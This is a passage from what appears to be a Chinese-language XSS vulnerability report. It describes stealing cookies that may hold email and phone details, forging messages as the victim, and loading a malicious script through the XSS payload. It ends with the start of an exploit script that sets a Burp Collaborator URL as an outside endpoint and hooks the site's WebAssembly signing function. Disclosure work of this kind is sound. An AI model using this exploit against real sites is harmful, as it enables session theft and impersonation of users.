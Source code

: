     ![consolelog2](/assets/images/consolelog2.png)

7. 该XSS的利用

- 首先是窃取cookie，可能会带有邮箱和手机号信息
[cookie](/assets/images/cookie.png)
- 伪造发送消息等
前面通过脚本发送合法请求，已经足够证明攻击者能伪造用户发送消息。只需要把该脚本上传到https服务器，并且通过xss payload下载恶意脚本，能够执行更加复杂的逻辑。

### 漏洞证明
请提供截图或视频
视频链接：链接：https://pan.baidu.com/s/1468B0QCK8zEIu7MtIVb4CQ 提取码：1314
完整利用脚本如下：

        // burpsuite collaborator url
        const api_burp = 'https://e9op59j1geov80qd4hiuakntnktch3fr4.oastify.com'
        // init webassembly and get sig_gen function
        // 获取签名函数，该函数的实现为webassembly，但是全局模块sig暴露webassembly的接口，可以直接进行调用
        var moduleX;
        Promise.all([sig.default()]).then(function (t) {
            moduleX = t
        })
